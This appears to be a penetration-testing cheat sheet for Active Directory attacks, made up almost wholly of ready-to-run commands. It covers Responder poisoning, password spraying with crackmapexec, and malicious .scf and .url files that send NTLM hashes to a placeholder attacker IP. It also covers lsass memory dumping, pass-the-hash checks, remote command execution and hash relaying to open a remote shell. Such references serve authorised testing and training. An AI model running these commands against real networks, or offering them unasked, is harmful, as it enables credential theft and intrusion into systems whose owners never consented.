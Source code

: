 ## Getting Creds
* `responder -I eth0 -wrf` _Start responder on eth0. Listen for netbios, and wpad_
* `crackmapexec smb {ip} -u {users.txt} -p {password}` _spray all user accounts in users.txt with a single popular password_
* _Example index.scf file that can force any machine that views a share to send hash to attackers responder_
```
[Shell]
Command=1
IconFile=\\{attacker ip}\whatever.ico
[Taskbar]
Command=ToggleDesktop
```

* _Example .url file that when clicked will send hash to attackers responder_
```
[InternetShortcut]
URL=file://{attacker ip}/@whatever
```

* `smbclient \\\\{ip}\\{share name} -U {domain}/{user}` _connect to smb share with valid creds_
* `put /{path}/index.scf ./index.scf` _upload malicous scf file to root of connected smb share_
* [kerberoast](https://room362.com/post/2016/kerberoast-pt1/) _stealing crackable tickets from AD using kerberoasting. htb machine [Active](https://0xrick.github.io/hack-the-box/active/) is an example of this_
* `rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump “<lsass pid> lsass.dmp full”` _Dump the lsass process to a file so it can be transfered to attacked for mimikatz.  Useful after forcing clear text lsass creds.  See tutorial page_
* [lsassy](https://github.com/Hackndo/lsassy) _Remotely dump secrets from lsass process_

## Enumeration
* `crackmapexec smb {ip range} -u {username} -p {password}` _scan an ip or range with valid creds to see where it's an admin or at least a valid user_
* `crackmapexec smb {ip range} -u {username} -p {password} --shares` _enumerate shares that user hass access to_
* `/usr/share/responder/tools/RunFinger.py -i {ip/mask}` _scan for machines with smb signing off so hashes can be passed instead of cracked_
* `crackmapexec smb {ip range} -u {username} -H {hash} --local-auth` _Check an ip range for access using a local admin account and its uncracked hash.  SMB singing must be disabled on the target_
* [bloodhound](https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/) _Use to map a path to domain admin.  [unofficial docker image](https://github.com/belane/docker-bloodhound)_

## Remote Commands
* `crackmapexec smb {ip range} -u {username} -p {password} -x {cmd}`  _run command on remote machine using valid creds_
* `/usr/share/responder/tools/MultiRelay.py -t {ip} -u ALL` _Responder must be running with smb and http off.  This will listen for admin hashes and try to relay them to the specified ip to spawn a remote shell.  SMB signing must be disabled on the target [some instructions here](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)_
